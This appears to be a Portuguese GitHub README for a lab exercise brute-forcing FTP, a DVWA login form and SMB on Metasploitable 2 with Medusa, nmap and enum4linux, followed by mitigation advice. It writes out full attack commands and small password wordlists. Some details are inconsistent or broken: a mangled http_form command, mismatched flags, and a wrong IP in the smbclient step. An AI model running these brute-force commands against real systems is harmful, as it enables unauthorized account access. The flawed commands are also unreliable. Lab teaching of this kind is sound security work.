**Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlado)**

Este repositório contém a documentação para montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

**Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* imagens (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida).
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux).
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

1. Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**

2. força bruta contra usuários conhecidos (ex: admin) com uma wordlist pequena.

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

* h host alvo
* u usuário único (use -U para arquivo de usuários)
* P caminho da wordlist de senhas
* M ftp módulo FTP
* T 6 threads (ajuste conforme ambiente)
* f encerra ao encontrar credenciais válidas

3. Validação, após encontrar credenciais faça login com ftp:

```bash
ftp 192.168.56.101
```


**Ataque a formulário web (DVWA) com Medusa (http_form)**

DVWA costuma ter login em dvwa/login.php. Exemplo de uso do módulo http_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

1. Exemplo de http_form (substitua os campos conforme o formulário real):

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

2. Validação, tente fazer login no navegador usando as credenciais encontradas.


**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

1. Enumeração com enum4linux:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```

2. Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt

echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

3. Medusa smbnt (sintaxe genérica - ajuste conforme versão), Usando arquivo de usuários (-U) e uma pequena wordlist (-P):

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal/spraying: para vários usuários tenta poucas senhas comuns.

4. Validação, se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```

**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.






